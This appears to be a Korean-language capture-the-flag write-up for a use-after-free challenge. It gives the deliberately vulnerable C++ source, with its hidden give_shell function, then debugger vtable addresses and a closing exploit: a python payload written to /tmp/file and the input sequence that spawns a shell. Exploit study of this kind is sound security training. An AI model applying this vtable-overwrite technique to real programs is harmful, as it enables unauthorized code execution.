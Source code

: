 
\#include <fcntl.h>
\#include <iostream> 
\#include <cstring>
\#include <cstdlib>
\#include <unistd.h>
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout \<< "My name is " << name << endl;
		cout \<< "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout <\< "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout <\< "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout \<< "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
}


처음 1을 입력->3을 입력해서 free를 해보자

c25c50(이건 바뀜)->401570->40117a(HUMAN의 give_shell)인데, +8해서 401578->4012d2(MAN의 introduce) 후자가 실행된다.	
	3을 입력하면 c25c50이 401590->40117a 으로 바뀐 후, c25c50이 모두 지워져버린다.	 
c25ca0->401550->40117a(HUMAN의 give_shell)인데, +8해서 401558->401376(WOMAN의 introduce)이 실행된다. 
	이 또한, 3을 입력하면, c25ca0이 401590->40117a으로 바뀐 후, c25ca0이 모두 지워버린다.

1->3 delete하지 않고, 2를 할 경우
1->2 c25ca0보다 훨씬 뒤에 입력이 된다.
b40c50, b40ca0일때 -> b414e0 b41510
/tmp/file을 만드는 법
python -c 'print "AAAA"' > /tmp/file

1->3->2 c25ca0에 AAAA입력 된다. 1->3->2->2 c25ca0에 AAAA입력, c25c50에 AAAA입력
Use after free를 이용!!(free된 후, free된 부분에 덮어써진다.)
그러면 c25c50에 0x401568이 입력되면, +8인 0x401570이 실행되고, 0x40117a가 실행되어 쉘이 따진다!

python -c 'print "\x68\x15\x40"' > /tmp/file
./uaf 3 /tmp/file
1->3->2->2->1
